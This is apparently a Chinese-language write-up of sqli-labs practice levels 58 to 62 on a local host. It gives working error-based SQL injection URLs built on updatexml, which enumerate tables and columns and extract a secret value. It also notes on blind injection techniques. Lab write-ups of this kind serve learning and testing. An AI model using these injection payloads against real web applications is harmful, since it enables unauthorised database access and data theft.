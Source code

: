 //获得表的名称3ESATPRS7P 

http://127.0.0.1/sqli-labs/Less-58/index.php?id=0%27 and(updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),0)) -- - 

//获取列名

http://127.0.0.1/sqli-labs/Less-58/index.php?id=0%27 and(updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='3ESATPRS7P')),0)) -- - 

//获取值 

http://127.0.0.1/sqli-labs/Less-58/index.php?id=0%27 and(updatexml(1,concat(0x7e,(select secret_56Z4 from challenges.3ESATPRS7P)),0)) -- - 



没有太明白怎么double query 



##第59关 

同58关，sql语句没有单引号了 

http://127.0.0.1/sqli-labs/Less-59/index.php?id=0 and(updatexml(1,concat(0x7e,(select database())),0)) -- - 



##第60关 

源代码比59关的源代码多了（“”） 

$id = '("'.$id.'")'; 

闭合id即可 

http://127.0.0.1/sqli-labs/Less-60/index.php?id=0") and updatexml(1,concat(0x7e,(select database())),0) -- - 



##第61关 

$sql="SELECT * FROM security.users WHERE id=(('$id')) LIMIT 0,1”; 



http://127.0.0.1/sqli-labs/Less-61/index.php?id=0')) and updatexml(1,concat(0x7e,(select database())),0) -- - 





##第62关 

回显处已白名单数组处理 

没有sql报错函数，盲注(基于时间、基于布尔、基于报错盲注)，这里使用基于时间的盲注 

PS:有个知识点盲区，**基于报错的盲注**，（**有回显不一定有报错，有报错也不一定有回显**） 

例如有报错函数的盲注就叫做基于报错类型的盲注，例如if(1=1,(select 1 union select 2),1) 

$sql="SELECT * FROM security.users WHERE id=('$id') LIMIT 0,1"; 

